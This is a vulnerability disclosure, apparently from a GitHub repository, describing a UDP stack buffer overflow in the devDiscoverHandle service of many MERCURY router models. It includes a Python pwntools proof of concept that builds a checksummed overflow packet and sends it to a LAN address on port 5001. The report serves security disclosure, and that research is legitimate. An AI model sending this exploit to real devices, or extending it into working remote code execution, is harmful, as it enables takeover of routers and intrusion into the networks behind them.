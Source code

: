 # MERCURY Router Vulnerability Report

MERCURY router have a stack overflow issue in `devDiscoverHandle` server.

Any user can get remote code execution through LAN, this vulnerability currently affects latest M, D, B series, including M6G, D12A, B2, MIAP300L, D126, MCAP1200GP, MIAP300D, MWB201, D121G, MWB505, MIAP301D, B5, MIAP300P, M9G, MCAP1200GD, D12, D12B, MWB201S, MIAP303P, MW310RE, MIAP301P, D196G, MW300RE, D19, etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability Description

This vulnerability happen when devDiscoverHandle receive data by using `recvfrom` from `udp port 5001`.Then enter the `protocol_handler`->`parse_advertisement_frame`->`copy_msg_element`.In the function of `copy_msg_element` we can control `a1` and `a3` that It lead to a stack buffer overflow to execute arbitrary code.

![1](devDiscoverHandle/1.png)
![2](devDiscoverHandle/2.png)
![3](devDiscoverHandle/3.png)
![4](devDiscoverHandle/4.png)

## PoC

```python
import sys
import struct
import requests
from pwn import *
from time import sleep


udp_data_addr = 0x0419680

def fix_checksum(data):
    checksum = 0
    for off in range(0, len(data), 2):
        checksum += u16(data[off:off+2])
    checksum &= 0xffffffff
    while True:
        if (checksum >> 0x10) == 0:
            break
        checksum = (checksum & 0xffff) + (checksum >> 0x10)
    checksum &= 0xffff
    return p16(0xffff - checksum)

context.endian='little'

magic = b'\x01\x02\x0e\x00\xe1\x2b\x83\xc7'

gadget1 = p32(udp_data_addr + 0x300)
pad2 = b'poc'.ljust(750-0x10, b'\x00') + gadget1

context.endian='big'
tmp = b'\x00\x05' + p16(len(pad2)) + pad2

checksum = fix_checksum(magic + p16(len(tmp)) + tmp)
payload2 = magic + checksum + p16(len(tmp)) + b'\x00\x00' + tmp

assert(len(payload2) < 0x300)

print('')
print("[*] Sending payload2")
udp=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
udp.sendto(payload2,('192.168.3.28',5001))
udp.close()
sleep(1)
print("[+] Success")

```

## Acknowledgment

Credit to [@G6](https://github.com/GANGE666), [@Yu3H0](https://github.com/Yu3H0/), [@peanuts](https://github.com/peanuts62) from Shanghai Jiao Tong University.